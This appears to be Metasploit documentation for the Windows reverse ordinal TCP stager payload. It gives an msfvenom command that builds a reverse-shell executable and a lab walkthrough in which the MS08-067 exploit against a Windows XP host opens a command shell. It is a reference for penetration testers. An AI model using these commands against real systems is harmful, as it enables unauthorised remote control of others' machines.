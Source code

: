 # Windows Command Shell

Reverse Ordinal TCP Stager is an unique windows payload for Metasploit Framework.

It is really small (<100 bytes), it uses the existing ws2_32.dll in memory in connect and load the next stage of the payload. It provides a shell on the target machine which can be used to achieve almost anything on the target pc.

## Vulnerable Application

This Meterpreter payload is suitable for the following environments:

* Windows x86
* Windows x64

## Usage

### As a payload for an exploit:

To check its compatibility with an exploit, select the exploit in the msf console and type the ```info``` command. The output will be similar to:

```
msf5 payload(windows/shell/reverse_tcp) > info

       Name: Windows Command Shell, Reverse TCP Stager
     Module: payload/windows/shell/reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 283
       Rank: Normal

Provided by:
  spoonm <spoonm@no$email.com>
  sf <stephen_fewer@harmonysecurity.com>
  hdm <x@hdm.io>
  skape <mmiller@hick.org>

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port

Description:
  Spawn a piped command shell (staged). Connect back to the attacker
```


If the platform field includes Windows, then windows/shell/reverse_ord_tcp can be used as the
payload.

To use at as a payload for an exploit, use the following commands:

 1. In msfconsole, select an exploit module compatible with windows.
 2. Configure the options for that exploit.
 3. Then run the following command: ```set windows/shell/reverse_ord_tcp```
 4. Set the ```LHOST``` option, to be the IP address that the payload should connect to.
 5. Then run the command: ```exploit```.

If the exploit is successful, the payload will get executed.


### As a standalone executable

To use it as an executable, use the msfvenom tool. A typical example of doing this is as follows:


```
./msfvenom -p windows/shell/reverse_ord_tcp LHOST=192.168.23.1 LPORT=4444 -f exe -o /tmp/ordpayload.exe```
```

## Scenarios

The following commands are run on a Windows XP SP 2 English Machine:

```
msf exploit(windows/smb/ms08_067_netapi) > set payload windows/shell/reverse_ord_tcp
payload => windows/shell/reverse_ord_tcp
msf exploit(windows/smb/ms08_067_netapi) > use exploit/windows/smb/ms08_067_netapi
msf exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(windows/smb/ms08_067_netapi) > set RHOST 192.168.56.3
RHOST => 192.168.56.3
msf exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.56.3     yes       The target address
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/shell/reverse_ord_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.56.1     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf exploit(windows/smb/ms08_067_netapi) > exploit
```

The above commands will result into the following scenario, leading a shell
on the target machine:

```
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.3:445 - Automatically detecting the target...
[*] 192.168.56.3:445 - Fingerprint: Windows XP - Service Pack 2 - lang:English
[*] 192.168.56.3:445 - Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] 192.168.56.3:445 - Attempting to trigger the vulnerability...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.56.3
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.3:1034) at 2018-08-17 15:25:02 +0530
```

